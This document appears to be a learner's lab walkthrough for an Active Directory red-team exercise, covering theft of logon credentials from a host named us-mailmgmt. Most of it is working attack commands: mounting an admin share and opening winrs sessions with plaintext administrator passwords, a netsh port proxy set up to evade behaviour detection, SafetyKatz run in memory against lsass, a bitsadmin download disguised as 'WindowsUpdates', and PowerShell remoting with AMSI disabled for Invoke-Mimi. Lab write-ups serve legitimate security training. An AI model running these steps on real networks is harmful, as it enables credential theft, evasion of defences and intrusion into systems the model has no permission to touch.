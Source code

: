 
Task 
• Extract credentials of interactive logon sessions and service accounts from us-mailmgmt.

We can use either winrs and open-source binaries or PowerShell Remoting and Invoke-Mimi.ps1. Let us try them one by one.

```
net use x: \\us-mailmgmt\C$\Users\Public /user:usmailmgmt\Administrator t7HoBF+m]ctv.]
```

```
echo F | xcopy C:\AD\Tools\Loader.exe x:\Loader.exe
```

```
net use x: /d
```


![[Pasted image 20250317193023.png]]

we can download and run SafetyKatz in memory using Loader. To bypass behaviour detection of SafetyKatz we need to perform an additional step. We need to forward traffic from local (target) machine to the student VM. This way, the download always happens from 127.0.0.1

Run the following commands to connect to us-mailmgmt using winrs and forward the traffic. Remember to modify the IP address in connectaddress in the netsh command to your student VM:

```
winrs -r:us-mailmgmt -u:.\administrator -p:684@@2O0Ybz$#N cmd
```

```
netsh interface portproxy add v4tov4 listenport=8080listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.139
```

![[Pasted image 20250317193439.png]]

Now, we will use the Loader.exe to run SafetyKatz.exe from memory to extract credentials from the lsass process. Remember to host SafetyKatz.exe on a local web server on your Student VM.

Use ArgSplit.bat on the student VM to encode "sekurlsa::ekeys":

```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn%" "exit"
```

![[Pasted image 20250317193841.png]]

we could also use bitsadmin, a Microsoft signed binary to download NetLoader on usmailmgmt. Remember to host Loader.exe on a local web server on your student VM.

```
winrs -r:us-mailmgmt -u:.\administrator -p:684@@2O0Ybz$#N  "bitsadmin /transfer WindowsUpdates /priority normal http://127.0.0.1:8080/Loader.exe C:\\Users\\Public\\Loader.exe
```

### PowerShell Remoting and Invoke-Mimi

We will use Invoke-Mimi on us-mailmgmt to extract credentials.

```
$passwd = ConvertTo-SecureString '684@@2O0Ybz$#N' -AsPlainText -Force
```

```
$creds = New-Object System.Management.Automation.PSCredential ("us-mailmgmt\administrator", $passwd)
```

```
 $mailmgmt = New-PSSession -ComputerName us-mailmgmt -Credential $creds
```

We need to disable AMSI for the PSSession so that we can use the stock Invoke-Mimi.ps1 script. To avoid disabling AMSI, you can use modified Invoke-Mimi instead:

```
Enter-PSSession $mailmgmt
```

![[Pasted image 20250317195042.png]]

disable the AMSI In mailmgmt and exit

![[Pasted image 20250317195318.png]]

